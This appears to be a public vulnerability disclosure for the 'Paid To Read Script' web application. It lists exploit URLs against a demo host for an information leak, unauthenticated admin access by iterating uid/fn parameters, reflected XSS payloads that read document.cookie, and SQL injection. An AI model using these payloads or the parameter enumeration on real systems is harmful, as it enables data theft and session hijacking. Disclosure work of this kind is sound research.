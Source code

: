 ### Paid To Read Script  SQL Injection/XSS/Unauthorized access/Sensitive information leak

Well, when I pentest the official demo site of Paid To Read Script, I found some vulnerabilities here.


##### Sensitive information leak

When you visit the some page with wrong or invalid parameter value, you can get some sensitive information without login.

```
http://74.124.215.220/~paioread/admin/userview.php?uid=3

http://74.124.215.220/~paioread/admin/userview.php?uid=12%27
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/paid-to-read-script/info_leak.png)


##### Unauthorized access:

For example, we can vist some admin panel webpages easily , without login into the admin panel.

By the way, we can try to iter the parameter value , then get those important sensitive user informations in the database.


Key parameter: "fn"
```
http://74.124.215.220/~paioread/admin/viewvisitcamp.php?fn=7
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/paid-to-read-script/access1.png)

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/paid-to-read-script/access2.png)


Key parameter: "uid"
```
http://74.124.215.220/~paioread/admin/userview.php?uid=13
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/paid-to-read-script/access3.png)

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/paid-to-read-script/access4.png)


##### xss:

There're some reflect-xss in this system, for example:

http://74.124.215.220/~paioread/referrals.php?id=10&tier=1%27%22%3E%3Csvg/onload=alert(document.cookie)%3E%3C%27%22

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/paid-to-read-script/xss1.png)

http://74.124.215.220/~paioread/admin/userview.php?uid=13%27%22%3E%3Csvg/onload=alert(document.cookie)%3E%3C%27%22

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/paid-to-read-script/xss2.png)



##### SQL Injection:


Key parameter: "id"

```
http://74.124.215.220/~paioread/referrals.php?id=10&tier=1
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/paid-to-read-script/sqli.png)

You can see,  we can obtain the current database user or more sensitive data now!


